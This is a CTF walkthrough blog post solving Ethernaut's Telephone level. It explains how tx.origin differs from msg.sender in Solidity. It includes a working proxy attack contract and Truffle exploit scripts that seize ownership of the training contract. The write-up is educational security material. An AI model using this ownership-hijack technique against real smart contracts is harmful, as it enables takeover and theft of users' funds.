Title: Solving OpenZeppelin's Ethernaut CTF - Telephone
Date: 2018-06-10 18:20
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-telephone
Summary: Fifth post of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. We claim ownership of the Telephone contract by first understanding the difference between the sender and origin of Ethereum transactions.

## Introduction
The Telephone contract challenge is far from being the hardest or most complex of all, but through solving it we will dig a bit deeper in how Ethereum works internally. Not so much to say here, so just go and [read the challenge](https://ethernaut.zeppelin.solutions/level/0x6b7b4a5260b67c1ee9196a42dd1ed8633231ba0a){:target="_blank",:rel="noopener"}.

## The Telephone Contract
Our objective is to claim ownership of the contract. According the the constructor's code, the deployer is the first owner.
~~~solidity
function Telephone() public {
    owner = msg.sender;
}
~~~

Anybody with intentions to become the new owner must call the public `changeOwner` function passing the address as an argument:
~~~solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
}
~~~
Doesn't seem so difficult, except for that `if` clause. Let's see what it means.

Among the available global variables in Solidity, there're two which can be a bit confusing at first: `msg.sender` and `tx.origin`. Up until now, we've only seen and used `msg.sender` to reference the caller's address. However, while [solving the Coinflip challenge](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-coinflip), we learned that public functions can be called both from 'outside' the blockchain (i.e. from an externally owned account) or 'inside' the blockchain (from another contract's code).
Moreover, we stated that while all **transactions** are originated by an EOA, contracts can send messages to each other, those messages being all included in the same transaction which triggered the whole call chain.

As a result, in Solidity there are two different global variables to reference each of those cases. On the one hand, `msg.sender` references the actual caller (the last caller in the call chain) of the function. It could be an EOA or a contract address.

On the other hand, `tx.origin` indicates the address of the EOA that gave origin to the whole transaction.

For instance, imagine that the externally owned account 'A' calls a function in contract 'B' which calls a function in contract 'C'. This super complex call chain results in: A -> B -> C. In B's code, `tx.origin` and `msg.sender` would be the same: the address of A. Conversely, in C's code, `tx.origin` and `msg.sender` would be different: while `msg.sender` would be B's address, `tx.origin` would equal A's address.

All of this means that, to become the owner of Telephone, an attacker cannot simply call the `changeOwner` public function from his/her EOA. Were he/she to do that, `tx.origin` would always equal `msg.sender` (your address), thus the `if` clause would never be true.

Instead, the solution relies on deploying a new 'proxy' contract (just like we did in the Coinflip challenge) controlled by the attacker (us), which will be in charge of calling the `changeOwner` function of `Telephone` contract and become its owner on the attacker's behalf.

## The exploit

Let's first write the `TelephoneAttack` contract code. Note its similarities with the [`CoinflipAttack` contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/CoinFlipAttack.sol){:rel="noopener"} we saw in the previous post. The same observations we highlighted in that one apply here as well.

~~~solidity
pragma solidity ^0.4.18;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone public victimContract;

    function setVictim(address _addr) public {
        victimContract = Telephone(_addr);
    }

    function changeOwner(address _owner) public {
        victimContract.changeOwner(_owner);
    }
}
~~~

Once you added `Telephone.sol` and `TelephoneAttack.sol` to the `contracts` folder of your project, write the necessary code (see below) to deploy both of them to the blockchain in `migrations/2_deploy_contracts.js`. Then run `npx truffle migrate`.

~~~javascript
let Telephone = artifacts.require('./Telephone.sol')
let TelephoneAttack = artifacts.require('./TelephoneAttack.sol')
module.exports = deployer => {
    deployer.deploy(Telephone)
    deployer.deploy(TelephoneAttack)
}
~~~

Inside your `exploits` folder, create a file called `telephone.exploit.js`. As always, follow the same code structure used for the previous exploits:

~~~javascript
const TelephoneContract = artifacts.require('Telephone')
const TelephoneAttackContract = artifacts.require('TelephoneAttack')
const assert = require('assert')

async function execute(callback) {
    let victimContract = await TelephoneContract.deployed()
    let proxyContract = await TelephoneAttackContract.deployed()

    // Set the victim's address
    proxyContract.setVictim(victimContract.address)
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker account is ${attackerAccount}`)

    // Check original owner
    let contractOwner = await victimContract.owner.call()
    console.log(`Original owner ${contractOwner}`)

    callback()
}
module.exports = execute
~~~

Changing the owner is just a matter of calling our malicious contract's `changeOwner` function from our attacker account. Then verify that the ownership was succesfuly changed:
~~~javascript
// Change owner
await proxyContract.changeOwner(attackerAccount, {
    from: attackerAccount
})

// Check final owner
contractOwner = await victimContract.owner.call()
assert.equal(contractOwner, attackerAccount)
console.log(`New owner ${contractOwner}`)
~~~

Now run `npx truffle exec exploits/telephone.exploit.js` and that's it! Challenge passed.

See the [full code of the exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/telephone.exploit.js) and the [attacker contract code](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/TelephoneAttack.sol).

Thanks for reading!. For the [next post](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-token/), be ready to **steal some ethers** from a basic token contract and pass the [Token challenge](https://ethernaut.zeppelin.solutions/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"}.
